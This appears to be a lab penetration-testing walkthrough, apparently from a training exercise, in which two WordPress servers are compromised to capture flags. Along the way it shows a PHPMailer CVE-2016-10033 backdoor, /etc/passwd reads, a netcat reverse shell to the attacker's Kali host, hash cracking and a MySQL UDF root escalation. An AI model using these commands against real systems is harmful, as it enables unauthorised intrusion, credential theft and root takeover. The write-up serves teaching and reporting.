# pentest_example
This exercise demonstrates penetration testing and reporting.
This activity was part of a larger project, but highlights finding, gaining access to, and exploiting servers running Wordpress sites.


The following are the vulnerabilities that were exploited in this attack:
  - [Wordpress Enumeration CVE-2019-6579](https://nvd.nist.gov/vuln/detail/CVE-2019-6579) - using wpscan, nikto, and gobuster
  - Weak passwords - easy to guess/bruteforce
  - Unprotected and Unsalted Hashes - cracked using johntheripper
  - Root privileges on user 'steven' for Python
  - [Remote Code Execution Vulnerability in PHPMailer 5.2.16 CVE-2016-10033](https://nvd.nist.gov/vuln/detail/CVE-2016-10033)
  - [MySQL 5.x User Defined Functions (UDF) Vulnerability CVE-2005-2572](https://nvd.nist.gov/vuln/detail/CVE-2005-2572)
   

This document contains a step by step walkthrough of the attack process including the commands used, and screenshots of the command line.

### Description of the Topology

The exploit took place on the network depicted below.


The Kali machine was used to connect to each of the servers individually and through a variety of exploits gain root access to each server and capture flags.

### Target 1 Exploitation

The first step was finding out our network information.



Then using nmap to scan the machine and identifying what services were running. 
On the Kali machine, nmap was used to identify the machine and its services.




The scan revealed ports 22, 80, 111, 139, and 445 were open on Target 1 machine

Next using metasploit, we ran a services and vulnerabilites scan to determine if there was any other useful information:


This search yeilded nothing particularly valuable.
We then used 'wpscan' command to enumerate the server using the command
```
wpscan --url http://192.168.1.110/wordpress -eu
```


This gave us a more detailed look at the users who have access to the server. Because we had usernames, we were able to guess/brute force the password to use ssh to connect to the machine. We guessed user 'michael' was using password 'michael' which is a pretty silly thing to do, but a great example of a very weak password.
As a result, we were able to log into the server using ssh, since we had already established that port 22 was open on the machine.


Next, we looked for flags:


Afterwards, we decided to investigate what we could on the machine, and discovered a 'wp-config' file which had an unencrypted username and password for a myql database on the machine.



Using the credentials obtained, we opened the myql server using the command
```
mysql -u root -p
```
and entered the password 'R@v3nSecurity'


Exploring the mysql database, we were able to discover both the third flag, but exploring various directories, as well as find password hashes for both user 'steven' and 'michael' using the command
```
SELECT * FROM wp_users;
```


Next we copied the hash values into a text file called 'wp_hashes.txt', and the used johntheripper to decrypt the hash values using command:
```
john wp_hashes.txt
```


Finally, using user 'steven' password 'pink84' we used ssh to gain access to the server to gain root privilege. First identifying user priviliges, and the exploiting root access to python using the command
```
sudo python -c 'import pty;pty.spawn("/bin/bash");'
```



### Target 2 Exploitation
Again, using the network information obtained from our earlier search we identified the ip address of Target 2 machine.
Using nmap to scan the machine and identifying what services were running. 


The scan revealed ports 22, 80, 111, 139, and 445 were open on Target 2 machine as well.

Next using nikto and then gobuster, the server was enumerated to determine whether wordpress was running, and to determine any interesting directories.





The "vendor" folder was a good place to check using a browser


In this directory, we found the first flag, but also information about the version of PHPMailer that was currently running on the system.


Using the information on the PHPMailer version, a search was conducted using searchsploit to find any vulnerabilites or scripts that could be use to gain further access to the server.


A remote code execution script was available that could be used to create a backdoor on the server.



Using a pre-built script, uploading it to http://pastebin.com and then downloading it on the Kali machine, the script was edited to include the ip address of the Target 2 machine.


Next the file must be made executable



Running the script executes command injection, which allows for backdoor access to the server by exploiting [Remote Code Execution Vulnerability in PHPMailer 5.2.16 CVE-2016-10033](https://nvd.nist.gov/vuln/detail/CVE-2016-10033)

Running the script, and then using the following line in the url bar of the browser allowed us to test the backdoor
``` 
192.168.1.115/backdoor.php?cmd=cat /etc/passwd
```



Next, using the backdoor.php we called the Kali machine to gain shell access to the Target 2 machine
First we used netcat to listen on port 4444 using the command
```
nc  -lnvp 4444
```


Then used the url bar to run the reverse shell by calling the Kali machine on port 4444
```
192.168.1.115/backdoor.php?cmd=nc 192.168.1.90 4444 /bin/bash
```


We found the 2nd and 34d flag from there.




We used the same privilege escalation using the user python root privilges, but for the purpose of being able to see the shell more easily
```
sudo python -c 'import pty;pty.spawn("/bin/bash");'
```


The www-data user did not have root privilges, therefore we needed to find another way to gain root access.
We were able to determine that the machine was also running a mysql database using a netstat discover command
```
netstat -tl
```



We guessed, correctly, that the mysql credentials from Target 1 were the same as this machine user: root password: R@v3nSecurity
Using the following command we were able to determine version information on the mysql database which could be potentially exploited
```
show variables like "%version%";
```



Using searchsploit, and the Mysql version 5.0 information, we were able to find an exploit labeled 1518.c [MySQL 5.x User Defined Functions (UDF) Vulnerability CVE-2005-2572](https://nvd.nist.gov/vuln/detail/CVE-2005-2572) The exploit allows a user to change a command line function inside the msyql databse, and then alter the command to gain root access


First the exploit needed to be encoded and then changed into a format that could be executed. Some googling and finding previous users who had done this was very helpful. The commands used are as follows.
To encode the exploit
```
searchsploit -m 1518.c
```

To change the format from .c to .so
```
gcc -g -shared -Wl -soname,1518.so -o 1518.so 1518.c -lc
```


Getting the exploit loaded on to the Target 2 machine was challenging.
In one command line window netcat was used to send the 1518.so file over port 1499 and in a separate command line window the exploit was received on the Target 2 machine using netcat on port 1499 and written as escalation.so. Once it was verified that the file was on the Target 2 machine, chmod command was used to make it executable.


Next we logged back in to the mysql database on Target 2, and the database updated. Next we modify the database to create a new table called “foo” which we then embed our exploit called ‘escalation.so’ in order to create a vulnerability in the “find” command.





Next we logged out of the msyql database, ran a command to create a file called burrito, because why not?
Lastly we used the find command to gain root privilges, and the captured the final flag. 
```
find burrito -exec "whoami" \;
```

``` 
find burrito -exec "/bin/sh" /;
```




